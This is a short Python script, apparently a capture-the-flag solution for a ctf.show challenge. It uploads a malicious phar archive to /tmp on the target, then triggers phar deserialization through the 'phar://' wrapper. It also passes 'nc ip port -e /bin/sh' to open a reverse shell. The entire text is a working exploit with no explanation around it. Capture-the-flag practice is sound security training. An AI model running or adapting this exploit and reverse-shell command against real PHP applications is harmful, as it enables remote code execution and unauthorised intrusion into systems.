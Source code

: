```python
import requests

url = "http://6e53ca54-bed6-4653-9021-10251c3b0265.challenge.ctf.show/"
data1 = {'file': '/tmp/a.phar', 'content': open('evil.phar', 'rb').read()}
data2 = {'file': 'phar:///tmp/a.phar', 'content': '123', '0': 'nc ip port -e /bin/sh'}
requests.post(url, data=data1)
r = requests.post(url, data=data2)
print(r.text)
```

